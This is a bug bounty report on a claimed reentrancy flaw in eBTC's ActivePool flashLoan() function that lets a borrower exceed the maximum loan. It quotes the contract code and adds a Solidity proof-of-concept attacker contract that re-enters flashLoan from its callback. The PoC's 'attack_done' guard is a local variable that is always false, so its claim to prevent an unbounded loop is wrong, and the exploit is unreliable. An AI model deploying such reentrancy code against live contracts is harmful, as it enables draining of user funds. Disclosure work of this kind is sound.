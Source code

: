 # 28605 - \[SC - Insight] Reentrancy on ActivePool allows users to borrow...

Submitted on Feb 22nd 2024 at 12:24:10 UTC by @shanb1605 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28605

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/ActivePool.sol

Impacts:

* Smart contract unable to operate due to lack of token funds
* Temporary freezing of funds for at least 15 minutes
* Bypassing Max Limit of Flash Loan amount

## Description

## Brief/Intro

The `flashLoan()` allows users to borrow collateral on Active Pool. The amount that can be borrowed is limited to `maxFlashLoan(token)` means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function.

## Vulnerability Details

The ActivePool contract misses reentrancy protection on `flashLoan()` which leads to borrowing over the max borrow limit of the token.

```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "ActivePool: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `token` is implicit in the requires above // also checks for paused
        require(amount <= maxFlashLoan(token), "ActivePool: Too much");

        uint256 amountWithFee = amount + fee;
        uint256 oldRate = collateral.getPooledEthByShares(DECIMAL_PRECISION);

        collateral.transfer(address(receiver), amount);

        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "ActivePool: IERC3156: Callback failed"
        );

        collateral.transferFrom(address(receiver), address(this), amountWithFee);

        collateral.transfer(feeRecipientAddress, fee);

        require(
            collateral.balanceOf(address(this)) >= collateral.getPooledEthByShares(systemCollShares),
            "ActivePool: Must repay Balance"
        );
        require(
            collateral.sharesOf(address(this)) >= systemCollShares,
            "ActivePool: Must repay Share"
        );
        require(
            collateral.getPooledEthByShares(DECIMAL_PRECISION) == oldRate,
            "ActivePool: Should keep same collateral share rate"
        );

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

## Impact Details

Bypass the max borrow amount and borrow until the Pool rans out of collateral.

## References

MakerDao has Reentrancy Protection on the FlashLoan module: https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137

## Proof of Concept

```solidity
pragma solidity ^0.8.0;

interface ActivePool {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```

* First `call_Flashloan()` is executed to borrow max amount of tokens.
* Inside `onFlashLoan` `some_actions()` will executed to borrow again the collateral from ActivePool.
* It sets `attack_done = true` to prevent an unbounded loop.
* Further actions will be carried out with the Flash Loan amount.
